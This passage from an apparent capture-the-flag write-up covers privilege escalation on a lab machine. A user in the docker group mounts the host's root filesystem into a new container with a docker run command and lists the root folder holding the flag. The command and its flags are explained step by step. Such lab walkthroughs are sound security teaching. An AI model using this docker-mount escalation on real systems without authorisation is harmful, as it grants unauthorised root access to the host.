 After a bit of enumeration I see something interesting, the current user is a member of the `docker` group, which means that we can create new containers at will.

```bash
prometheus@olympus:~$ id
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
prometheus@olympus:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                    NAMES
f00ba96171c5        crete               "docker-php-entrypoi…"   5 years ago         Up 27 hours         0.0.0.0:80->80/tcp                       crete
ce2ecb56a96e        rodhes              "/etc/bind/entrypoin…"   5 years ago         Up 27 hours         0.0.0.0:53->53/tcp, 0.0.0.0:53->53/udp   rhodes
620b296204a3        olympia             "/usr/sbin/sshd -D"      5 years ago         Up 27 hours         0.0.0.0:2222->22/tcp                     olympia
```
{: .nolineno }

Abusing this capability, the plan of attack is to create a new docker using any of the available images and mount the `root (/)` volume in a folder inside the container, that will allow us to read the root directory and get the latest flag.

```bash
prometheus@olympus:~$ docker run -v /:/v3he -i -t olympia /bin/bash
```
{: .nolineno }

Let's break down the command that we just executed:

* `docker run` is a command used to start a new Docker container.
* `-v /:/v3he` is a flag that mounts the root directory of the host machine as a volume in the container. This is done using the format -v [host directory]:[container directory].
* `-i` is a flag that starts the container in interactive mode, allowing the user to interact with the container's shell.
* `-t` is a flag that allocates a terminal for the container.
* `olympia` is the name of the Docker image to be used to start the container.
* `/bin/bash` is the command to be run inside the container's shell.

Overall, this command is running a Docker container using the olympia image, mounting the host machine's root directory as a volume in the container, and starting a Bash shell inside the container for the user to interact with. The -i and -t flags ensure that the container is started in interactive mode with a terminal allocated to it.

In the bash that has appeared on the screen we can enter the folder in which we mounted the `root volume (/)` and see the root folder which contains the `root.txt` flag.

```bash
root@3f8ef4444d1b:/# cd v3he/root/
root@3f8ef4444d1b:/v3he/root# ls -la
total 28
drwx------  4 root root 4096 Apr 16 18:35 .
drwxr-xr-x 22 root root 4096 Aug 10  2022 ..
lrwxrwxrwx  1 root root    9 Aug 10  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 Aug 10  2022 .cache
drwxr-xr-x  2 root root 4096 Aug 10  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Apr 16 18:35 root.txt
```
{: .nolineno }
